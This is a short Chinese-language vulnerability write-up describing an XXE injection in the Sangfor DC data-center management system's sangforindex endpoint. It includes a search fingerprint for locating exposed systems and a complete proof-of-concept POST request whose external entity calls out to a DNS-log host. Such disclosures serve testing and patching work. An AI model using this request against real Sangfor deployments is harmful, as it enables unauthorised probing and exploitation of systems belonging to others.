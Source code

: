 # 深信服 DC数据中心管理系统 sangforindex XML实体注入漏洞

# 深信服 DC数据中心管理系统 sangforindex XML实体注入漏洞

## 漏洞描述

深信服 DC数据中心管理系统 sangforindex 接口存在XML实体注入漏洞，攻击者可以发送特定的请求包造成XML实体注入

## 漏洞影响

深信服 DC数据中心管理系统

## 网络测绘

```
"SANGFOR 数据中心"
```

## 漏洞复现

登陆页面

![image-20230828143259744](images/image-20230828143259744.png)

验证POC

```
POST /src/sangforindex HTTP/1.1
Host: 
Content-Type: text/xml

<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE root [
    <!ENTITY rootas SYSTEM "http://xgsg1k.dnslog.cn">
]>
<xxx>
&rootas;
</xxx>
```

![image-20230828143318826](images/image-20230828143318826.png)

